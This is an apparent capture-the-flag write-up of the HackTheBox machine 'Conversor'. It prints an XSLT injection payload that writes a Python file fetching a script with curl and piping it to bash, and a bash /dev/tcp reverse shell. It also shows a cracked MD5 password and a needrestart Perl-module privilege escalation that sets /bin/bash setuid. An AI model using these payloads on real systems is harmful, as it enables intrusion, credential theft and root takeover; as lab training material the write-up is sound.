# HackTheBox - Conversor



## Machine Information

- **Machine Name:** Conversor
- **Difficulty:** Easy

## Summary

[Brief summary of the machine and key vulnerabilities exploited]

## Reconnaissance

Add host mappings in `/etc/hosts` as discovered:

```
10.10.11.92   conversor.htb
```

Run fast scans using `nmap`:

```bash
# Initial port scan
nmap -sCV 10.10.11.92 -T5 -onmap_result
```
```bash
# Nmap 7.95 scan initiated Thu Oct 30 10:34:17 2025 as: /usr/lib/nmap/nmap -sCV -T5 -onmap_result -Pn 10.10.11.92
Warning: 10.10.11.92 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.11.92
Host is up (0.070s latency).
Not shown: 837 closed tcp ports (reset), 161 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://conversor.htb/
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 30 10:34:45 2025 -- 1 IP address (1 host up) scanned in 27.30 seconds
```

**Open Ports:**
- 22/tcp - ssh - OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
- 80/tcp - http - Apache httpd 2.4.52

### Web Enumeration

The target runs a web application on port 80 powered by apache, the website presents an login page, where users need to enter the correct credentials or create a new user account.


Let's create a new account called kali.


Now we being directed to a page, where a specialized file conversion tool designed to transform Nmap scan results into a more attractive and readable display.

Here is how it works:

```bash
1) Input: It takes two files from the user:

- An XML File (which should be the raw output from a large Nmap security scan).

- An XSLT File (a stylesheet used to define how the XML data should be transformed).

2) Process: The user clicks "Convert," and the website applies the XSLT stylesheet to the Nmap XML data.

3) Output: The result is a transformed report (likely HTML or another formatted document) that is easier to read and analyze than the raw Nmap XML. The site even provides a link to "Download Template" for users who need a pre-made XSLT file.

```


I never work with this haha 😅, let's find and learn from it online first. I found an interesting github that pratically shows how xslt injection works. 
Here the link: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md



## XSLT Injection

**Phase 1: determine the Vendor and the Version:**

**XSLT Script used:**

```bash
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```


Ohh before i forgot, we should also create a dummy xml for the convertion to complete.

**XML Script used:**

```bash
<?xml version="1.0" encoding="utf-8"?>
<root/>
```

**Result**


**Phase 2: Remote Code Execution (RCE) via XSLT Injection**

Let's create a script containing the standard reverse shell command `shell.sh`.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.137/4444 0>&1
```

Now by uploading this malicious file, the server downloads the payload, executes it, and that single execution creates a stable, interactive connection (the reverse shell) that lasts until the connection is broken or the shell is terminated.

**XSLT Script used:**

```bash
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet 
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
   xmlns:shell="http://exslt.org/common"
   extension-element-prefixes="shell" 
   version="1.0" 
>
<xsl:template match="/">
<shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl -s 10.10.14.137:80/shell.sh | bash")
</shell:document>
</xsl:template>
</xsl:stylesheet>
```

Let's start a web server to host shell.sh using `python`.



Then, start a Netcat listener on the port 4444 to catch the shell.



### Initial Access/Foothold

First step is to check the user we logged as and the directory we in.

- **User**: www-data
- **Directory**: /var/www


Then we check files and permissions is the current directory, hurmm not much here.



Wow look what we have here, in the instance we found a users database



Using sqlite3, we successfully connected to the database and executed the query to retrieve the contents of the users table. Inside is the tables containing the users and theirs encrypted password

Furthermore, local enumeration on the filesystem revealed that fismathack was the only valid user with a dedicated home directory, making their credentials the highest priority target for lateral movement.



The dumped hash for the target user fismathack `5b5c3ac3a1c897c94caad48e6c71fdec` was identified as a 32-character hexadecimal string a standard MD5 hash. Using an online hash cracker, CrackStation the hash was successfully cracked, confirming it was a non-salted MD5 hash:

- **Hash:** 5b5c3ac3a1c897c94caad48e6c71fdec

- **Password:** Keepmesafeandwarm



We can now authenticate as fismathack via SSH. Let's go we in.



Now that we can access the home directory of fismathack, we gained the user.txt flag.



**User Flag:** `228c23a213ee06d7fb0c234494da6128`

## Privilege Escalation

### Sudo Misconfiguration Analysis

`sudo -l` reveals a critical misconfiguration:

```bash
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

This utility is vulnerable to dynamic linker environment variable manipulation, as it attempts to load specific modules and libraries. This vulnerability presents a clear path to privilege escalation.

### Exploitation via `needrestart`

The `needrestart` utility, when executed with `sudo`, can be exploited by leveraging the `PATH` environment variable or the loading of shared object libraries. The exploitation steps are as follows:

1.  **Create a Malicious Payload:** A temporary shell script (`/tmp/shell.sh`) is created to execute `/bin/bash` with the elevated (root) privileges provided by `sudo`.

2.  **Modify the Path:** The `$PATH` environment variable is manipulated to point to a temporary directory containing an executable named `perl`, which `needrestart` attempts to call.

3.  **Execute `needrestart`:** Executing the vulnerable command with `sudo` will use our malicious `perl` executable, which in turn calls our root shell.

```bash
cd /tmp
mkdir pwn_perl
cd pwn_perl
ls
echo 'system("chmod +s /bin/bash;");' > root.pm  
sudo PERL5LIB=/tmp/pwn_perl /usr/sbin/needrestart -v
sudo: sorry, you are not allowed to set the following environment variables: PERL5LIB

perl -e 'print join "\n", @INC'
/etc/perl
/usr/local/lib/x86_64-linux-gnu/perl/5.34.0
/usr/local/share/perl/5.34.0
/usr/lib/x86_64-linux-gnu/perl5/5.34
/usr/share/perl5
/usr/lib/x86_64-linux-gnu/perl-base
/usr/lib/x86_64-linux-gnu/perl/5.34
/usr/share/perl/5.34
/usr/local/lib/site_perl

echo 'package File::stat; use strict; use warnings; sub import { system("chmod +s /bin/bash"); } 1;' > stat.pm     
sudo /usr/sbin/needrestart -v

[main] eval /etc/needrestart/needrestart.conf
[main] needrestart v3.7
[main] running in root mode
[Core] Using UI 'NeedRestart::UI::stdio'...
[main] systemd detected
[main] vm detected
[Core] #863 is a NeedRestart::Interp::Python
[Python] #863: source=/usr/bin/networkd-dispatcher
[Core] #4672 is a NeedRestart::Interp::Python
[Python] #4672: source=/var/www/conversor.htb/scripts/shell.py
[Core] blacklisted: /var/www/conversor.htb/scripts/shell.py
[Core] #4706 is a NeedRestart::Interp::Python
[Python] #4706: uses no source file (-c), skipping
[Core] #41828 is a NeedRestart::Interp::Python
[Python] #41828: source=/var/www/conversor.htb/scripts/shell.py
[Python] #41828: use cached file list
[Core] blacklisted: /var/www/conversor.htb/scripts/shell.py
[Core] #75890 is a NeedRestart::Interp::Python
[Python] #75890: could not get current working directory, skipping
[main] #75916 uses obsolete binary /tmp/poc
[main] #75916 is a child of #75915
[Core] #76389 is a NeedRestart::Interp::Perl
[Perl] #76389: could not get current working directory, skipping
[Core] #80348 is a NeedRestart::Interp::Python
[Python] #80348: source=/var/www/conversor.htb/scripts/shell.py
[Python] #80348: use cached file list
[Core] blacklisted: /var/www/conversor.htb/scripts/shell.py
[Core] #96252 is a NeedRestart::Interp::Python
[Python] #96252: uses no source file (-c), skipping
[main] #75915 exe => /usr/bin/dash
[main] #75915 part of user session: uid=1000 sess=459
[main] inside container or vm, skipping microcode checks
[Kernel] Linux: kernel release 5.15.0-160-generic, kernel version #170-Ubuntu SMP Wed Oct 1 10:06:56 UTC 2025
Failed to load NeedRestart::Kernel::kFreeBSD: [Kernel/kFreeBSD] Not running on GNU/kFreeBSD!
[Kernel/Linux] /boot/vmlinuz.old => 5.15.0-151-generic (buildd@lcy02-amd64-092) #161-Ubuntu SMP Tue Jul 22 14:25:40 UTC 2025 [5.15.0-151-generic]
[Kernel/Linux] /boot/vmlinuz-5.15.0-160-generic => 5.15.0-160-generic (buildd@lcy02-amd64-086) #170-Ubuntu SMP Wed Oct 1 10:06:56 UTC 2025 [5.15.0-160-generic]*
[Kernel/Linux] /boot/vmlinuz-5.15.0-151-generic => 5.15.0-151-generic (buildd@lcy02-amd64-092) #161-Ubuntu SMP Tue Jul 22 14:25:40 UTC 2025 [5.15.0-151-generic]
[Kernel/Linux] /boot/vmlinuz => 5.15.0-160-generic (buildd@lcy02-amd64-086) #170-Ubuntu SMP Wed Oct 1 10:06:56 UTC 2025 [5.15.0-160-generic]*
[Kernel/Linux] Expected linux version: 5.15.0-160-generic

Running kernel seems to be up-to-date.

No services need to be restarted.

No containers need to be restarted.

User sessions running outdated binaries:
 fismathack @ session #459: sh[75915]
[main] run /etc/needrestart/notify.d/200-write
[/etc/needrestart/notify.d/200-write] skip session w/o tty
[main] run /etc/needrestart/notify.d/400-notify-send
[main] run /etc/needrestart/notify.d/600-mail

No VM guests are running outdated hypervisor (qemu) binaries on this host.

/bin/bash -p
/bin/bash -p
whoami
root
```

**Root Flag:** `9d8f5cfc4f39773c9399aa5c0ce4b2d7`

## PWNED


**Note:** This writeup is for educational purposes only. Always ensure you have proper authorization before testing on any systems.
